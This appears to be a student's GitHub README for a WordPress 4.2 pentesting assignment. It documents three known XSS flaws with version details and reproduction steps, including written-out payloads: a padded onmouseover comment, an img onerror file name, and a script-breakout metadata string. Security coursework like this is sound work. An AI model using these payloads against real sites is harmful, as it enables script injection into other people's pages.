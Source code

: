 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. [x] (Required) WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting
  - [x] Summary:
    - Vulnerability types: 	XSS
    - Tested in version: 		4.2 (Released on 04/23/2015)
    - Fixed in version: 		4.2.1
  - [x] GIF Walkthrough: 		exploit1/exploit1.gif
  - [x] Steps to recreate: 	Go to wordpress site and paste this link in the comment box and post.
														<a title='xonmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>


2. [x] (Required) WordPress 3.3-4.7.4 - Large File Upload Error XSS
  - [x] Summary:
    - Vulnerability types:	XSS
    - Tested in version: 		4.2 (Released on 04/23/2015)
    - Fixed in version: 		4.2.15
  - [x] GIF Walkthrough:		exploit2/exploit2.gif
  - [x] Steps to recreate:	Create a file larger than 20MB in size.
														Rename it to "anyName <img src=x onerror=alert("Exploit2")>.jpg"
														From admin console, upload this file.
														(An error will appear saying file too large, but our exploit will also work and alert box will pop up. This shows the vulnerability that )


3. [x] (Required) WordPress 3.6.0-4.7.2 - Authenticated Cross-Site Scripting via Media File Metadata
  - [x] Summary:
    - Vulnerability types:	XSS
    - Tested in version: 		4.2 (Released on 04/23/2015)
    - Fixed in version:			4.7.3
  - [x] GIF Walkthrough:		exploit3/exploit3.gif
  - [x] Steps to recreate:	Upload a media file containing exploit in form of Metadata.
														If it doesn't contain Metadata already, we can add it in description of the media file on admin console.
														Add "filename </noscript><script>alert("Exploit 3 Successful");</script>" in the description including quotes.
														View attachment page and our alert box will pop up.


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2017] [Arslan Waheed]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
